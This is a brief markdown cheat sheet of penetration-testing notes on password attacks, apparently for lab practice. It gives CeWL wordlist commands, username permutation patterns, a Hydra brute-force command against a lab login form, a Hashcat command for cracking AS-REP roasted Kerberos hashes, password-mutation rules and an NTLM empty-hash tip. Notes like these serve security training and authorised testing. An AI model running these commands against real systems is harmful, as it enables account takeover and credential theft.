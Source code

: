 # Password & Hash


## Generate Password List (CEWL)

```
cewl -d 5 -m 3 http://postfish.off/team.html -w /home/kali/Desktop/cewl.txt
```

## Generate Username Combinations like

```
firstlast
first.last
f.last
first.l
l.first
lfirst
first
last
```

https://github.com/m8sec/CrossLinked
https://github.com/soxoj/username-generation-guide

# Hydra
## http-post-form
```
hydra -I -f -L usernames.txt -P passwords.txt 'http-post-form://192.168.233.61:8081/service/rapture/session:username=^USER64^&password=^PASS64^:C=/:F=403'
```

# Create custom wordlist
```
cewl http://192.168.233.61:8081/ | grep -v CeWL > custom-wordlist.txt
cewl --lowercase http://192.168.233.61:8081/ | grep -v CeWL  >> custom-wordlist.txt
```
---
# Hashcat
- best64
```
sudo hashcat -m 18200 hashes.asreproast /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
```
- Add `1`,`!`,`1!`,`!1`:
```
$1
$!
$1$!
$!$1
```
# NTLM
- If it starts with `31d6` it means it is empty

